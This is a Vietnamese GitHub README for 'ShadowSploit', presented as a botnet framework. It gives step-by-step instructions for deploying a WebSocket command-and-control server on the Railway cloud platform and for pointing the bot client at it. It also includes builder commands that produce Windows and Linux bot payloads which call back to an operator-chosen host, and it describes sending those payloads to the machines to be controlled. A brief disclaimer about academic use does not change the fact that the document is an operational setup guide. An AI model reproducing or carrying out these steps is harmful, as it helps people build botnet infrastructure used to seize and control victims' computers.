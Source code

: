 # ShadowSploit - **Botnet Framework**

## 🚀 **Giới thiệu**

**ShadowSploit** là một framework **botnet** mã nguồn mở được phát triển cho **Kali Linux** và **Windows**. Framework này cho phép bạn xây dựng và quản lý botnet dễ dàng qua **WebSocket C2 Server**. 

### 💡 **Lợi ích**:
- Quản lý botnet qua **giao thức WebSocket**.
- Dễ dàng triển khai và tùy chỉnh.
- Hỗ trợ cả **Windows** và **Linux**.

## 🔧 **Cài đặt**

Để sử dụng **ShadowSploit**, bạn cần cài đặt **Python 3.6 trở lên** và các thư viện cần thiết.

**Bước 1**: Cài đặt các thư viện yêu cầu:
```bash
pip install -r requirements.txt 
```
Bước 2: Clone repository về máy của bạn:
```bash
git clone https://github.com/yourusername/ShadowSploit.git
cd ShadowSploit
```
Bước 3: Tạo môi trường ảo (tuỳ chọn):
```bash
python3 -m venv venv
source venv/bin/activate   # Trên Linux / macOS
venv\Scripts\activate      # Trên Windows
```
Bước 4: Cài đặt các phụ thuộc:
```bash
pip install -r requirements.txt
```

🌐 Chạy WebSocket C2 Server trên Railway
Tạo và Cấu Hình Server trên Railway
ShadowSploit có thể dễ dàng triển khai WebSocket C2 Server trên Railway để phục vụ botnet của bạn. Dưới đây là các bước chi tiết để cấu hình và triển khai server trên Railway.

Bước 1: Tạo tài khoản Railway
Đầu tiên, bạn cần đăng ký tài khoản tại Railway.

Bước 2: Tạo một Project Mới trên Railway
Đăng nhập vào Railway.
Nhấn vào nút "New Project".
Chọn "Deploy from GitHub" để kết nối tài khoản GitHub của bạn với Railway.
Tìm kiếm và chọn repository của bạn, nơi bạn đã lưu mã nguồn của ShadowSploit.
Nhấn "Deploy".
Bước 3: Cấu hình môi trường cho server
Sau khi kết nối với repository, Railway sẽ tự động nhận diện mã nguồn của bạn. Tiếp theo, bạn cần cấu hình các biến môi trường để WebSocket C2 Server hoạt động chính xác.

Chọn "Settings" từ thanh menu của dự án trên Railway.
Thêm các biến môi trường sau (nếu cần thiết):
HOST: Địa chỉ IP của server (thường sẽ là 0.0.0.0 đối với Railway).
PORT: Cổng mà WebSocket server sẽ lắng nghe, ví dụ 8080.
Bước 4: Cấu hình tệp Procfile
Đảm bảo rằng bạn có một tệp Procfile trong repository của mình. Tệp này sẽ chỉ dẫn Railway cách chạy ứng dụng của bạn.

Ví dụ về Procfile:
```bash
web: python server.py
```
Bước 5: Triển khai Server
Sau khi cấu hình các biến môi trường và tệp Procfile, nhấn "Deploy" để triển khai server lên Railway. Quá trình triển khai sẽ tự động bắt đầu.

Bước 6: Truy cập URL của Server
Sau khi server được triển khai thành công, Railway sẽ cung cấp cho bạn một URL mà bạn có thể sử dụng để kết nối bot của mình tới WebSocket server.

URL của server sẽ có dạng:
```bash
https://your-project-name.up.railway.app
```
Lưu ý: Bạn có thể thay thế your-project-name bằng tên dự án thực tế của bạn trên Railway.

🔌 Liên kết WebSocket C2 Server với ShadowSploit
Bước 1: Cập nhật cấu hình WebSocket Server trong ShadowSploit
Sau khi bạn đã triển khai WebSocket C2 server trên Railway và nhận được URL của server, bạn cần cấu hình ShadowSploit để kết nối đến server này.

1. Mở file cấu hình config.json trong repository ShadowSploit.
2. Thêm hoặc cập nhật các thông tin sau:
```bash
{
  "C2_SERVER_URL": "https://your-project-name.up.railway.app",
  "C2_SERVER_PORT": "8080"
}
```
- C2_SERVER_URL: Đặt là URL bạn đã nhận được từ Railway.
- C2_SERVER_PORT: Cổng mà server WebSocket đang lắng nghe (ví dụ: 8080).

Bước 2: Khởi động WebSocket C2 Client
Sau khi cấu hình xong, bạn có thể khởi động bot của mình để kết nối đến WebSocket C2 server.
```bash
python3 client.py
```

🖥️ Cách sử dụng
Chạy WebSocket Server
Sau khi cài đặt xong, bạn cần chạy WebSocket C2 Server để có thể điều khiển botnet:
```bash
python3 server.py
```
Server này sẽ lắng nghe kết nối từ các bot.

Tạo Payload cho Windows hoặc Linux
Để tạo payload cho các bot, bạn có thể sử dụng builder.py. Chạy lệnh sau để tạo payload tương ứng với hệ điều hành:

Payload cho Windows:
```bash
python3 builder.py --payload windows --host 192.168.1.100 --port 8080 --output botnet.exe
```
Payload cho Linux:
```bash
python3 builder.py --payload linux --host 192.168.1.100 --port 8080 --output botnet.elf
```
Kết nối Bot với Server
Sau khi tạo payload và gửi cho các bot, chúng sẽ tự động kết nối với WebSocket Server bạn đã khởi động ở bước trước. Bạn có thể bắt đầu điều khiển chúng thông qua server này.

🔐 Lưu ý
⚠️ ShadowSploit chỉ nên được sử dụng cho các mục đích học thuật và kiểm tra bảo mật.

Không sử dụng cho các hoạt động tấn công bất hợp pháp hoặc xâm nhập vào hệ thống không được phép.

🔗 Tải về Cấu hình Server C2 từ Repository
Nếu bạn muốn sử dụng cấu hình WebSocket C2 Server đã được cấu hình sẵn, bạn có thể tải về từ repository sau:

- ShadowSploit C2 Server Configuration
Trong repository này, bạn sẽ tìm thấy toàn bộ cấu hình sẵn của WebSocket C2 Server đã được cấu hình để triển khai trên Railway và các hướng dẫn chi tiết về cách sử dụng.

Cách tải về và triển khai từ cấu hình sẵn:
1. Truy cập vào repo cấu hình C2.
2. Clone repository về máy của bạn:
```bash
git clone https://github.com/yourusername/ShadowSploit-c2-setup.git
cd ShadowSploit-c2-setup
```
3. Lưu ý rằng repository này đã chứa toàn bộ cấu hình cho Railway. Bạn chỉ cần tải về và triển khai trên Railway theo hướng dẫn dưới đây.
🧑‍💻 Liên hệ
Nếu bạn gặp khó khăn khi sử dụng ShadowSploit, vui lòng mở Issue trên GitHub hoặc gửi email cho chúng tôi tại: youremail@example.com.

Tham gia cộng đồng: GitHub Repository



